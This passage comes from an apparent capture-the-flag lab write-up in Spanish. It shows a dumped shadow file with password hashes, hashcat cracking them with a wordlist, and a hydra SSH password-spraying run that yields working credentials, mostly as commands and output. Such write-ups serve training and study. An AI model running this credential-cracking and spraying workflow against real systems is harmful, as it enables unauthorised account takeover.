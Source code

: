 ```console
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Podemos introducir estos hashes en un fichero `hash.txt` e intentar crackearlos con `hashcat` utilizando el modo 1800.
```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 1800 .\hash.txt .\rockyou.txt
....
$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Vemos que conseguimos romperlos.
- root -> blindside
- michael -> insaneclownposse

## Password Spraying
Ahora podemos hacer un ataque de diccionario a los usuarios encontrados con las credenciales encontradas y conseguimos credenciales como el usuario `michael` para acceder por SSH.
```console
$ hydra -L users.txt -P creds.txt 10.129.198.243 ssh -t 4 -V 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 21:59:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12 login tries (l:4/p:3), ~3 tries per task
[DATA] attacking ssh://10.129.198.243:22/
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "SuperP4ssw0rd!" - 1 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "blindside" - 2 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "michael" - pass "insaneclownposse" - 3 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "root" - pass "SuperP4ssw0rd!" - 4 of 12 [child 3] (0/0)
[22][ssh] host: 10.129.198.243   login: michael   password: insaneclownposse
[ATTEMPT] target 10.129.198.243 - login "root" - pass "blindside" - 5 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "root" - pass "insaneclownposse" - 6 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "SuperP4ssw0rd!" - 7 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "blindside" - 8 of 12 [child 3] (0/0)
[ATTEMPT] target 10.129.198.243 - login "john" - pass "insaneclownposse" - 9 of 12 [child 2] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "SuperP4ssw0rd!" - 10 of 12 [child 1] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "blindside" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.129.198.243 - login "node" - pass "insaneclownposse" - 12 of 12 [child 3] (0/0)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 21:59:40
```
